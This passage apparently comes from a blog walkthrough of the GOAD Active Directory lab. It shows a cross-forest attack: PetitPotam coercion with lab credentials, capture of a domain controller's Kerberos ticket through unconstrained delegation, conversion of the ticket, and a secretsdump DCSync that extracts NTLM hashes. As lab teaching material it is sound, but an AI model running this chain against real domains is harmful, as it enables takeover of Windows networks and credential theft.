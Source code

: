```bash
petitpotam.py -u arya.stark -p Needle -d north.sevenkingdoms.local kingslanding.sevenkingdoms.local meereen.essos.local
```

- And we get the TGT of meereen !

![trust_forest_tgt_unconstrained.png](/assets/blog/GOAD/trust_forest_tgt_unconstrained.png)

- Now we can copy it to linux (delete space and \n)
- Decode the base64 and save it to a kirbi file

```bash
base64 -d rubeus.b64 > meereen.kirbi
```

- Convert it to ccache and use it to dcsync essos.local

```bash
ticketConverter.py meereen.kirbi meereen.ccache 
export KRB5CCNAME=/workspace/trusts/unconstrained/meereen.ccache
secretsdump -k -no-pass -just-dc-ntlm essos.local/'MEEREEN$'@meereen.essos.local
```
